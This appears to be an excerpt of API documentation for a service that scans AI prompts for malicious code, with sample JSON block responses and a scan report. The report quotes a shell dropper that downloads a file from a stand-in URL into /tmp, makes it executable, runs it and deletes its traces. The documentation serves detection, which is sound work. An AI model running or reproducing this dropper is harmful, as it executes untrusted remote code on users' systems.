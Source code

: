 **Important Notes**:
- Combine multiple snippets of the same language type into one
- If the response contains multiple language snippets, invoke a separate API with each language

### Response Format

When malicious code is detected, the API returns:

```json
{
   "action" : "block",
   "category" : "malicious",
   "profile_id" : "00000000-0000-0000-0000-000000000000",
   "profile_name" : "test-qa-ui-XXX",
   "prompt_detected" : {
      "dlp" : false,
      "injection" : false,
      "malicious_code" : true,
      "toxic_content" : false,
      "url_cats" : false
   },
   "report_id" : "R00000000-0000-0000-0000-000000000000",
   "response_detected" : {},
   "scan_id" : "00000000-0000-0000-0000-000000000000",
   "tr_id" : "1628"
}
```

**Key Response Fields**:
- `prompt_detected.malicious_code`: `true` indicates malicious code was detected
- `category`: Set to `"malicious"` when malicious code is found
- `action`: Based on your API security profile settings (e.g., `"block"`)

## Detailed Scan Report

The malicious code report shows all code snippets that are extracted and analyzed:

```json
{
   "detection_results" : [
      {
         "action" : "allow",
         "data_type" : "prompt",
         "detection_service" : "dlp",
         "result_detail" : {
            "dlp_report" : {
               "data_pattern_rule1_verdict" : "NOT_MATCHED",
               "data_pattern_rule2_verdict" : "",
               "dlp_profile_id" : "00000000",
               "dlp_profile_name" : "Sensitive Content",
               "dlp_report_id" : "000000000000000000000000000000000000000000000000000000000000000"
            }
         },
         "verdict" : "benign"
      },
      {
         "action" : "allow",
         "data_type" : "prompt",
         "detection_service" : "malicious_code",
         "result_detail" : {
            "mc_report" : {
               "all_code_blocks" : [
                  "#!/bin/sh\n\nrm -rf $0\ncd /\nwget https://website.com/sp/lp -O /tmp/b\nchmod 777 /tmp/b\ncd /tmp\n./b\nrm -rf /tmp/b\nexit 0"
               ],
```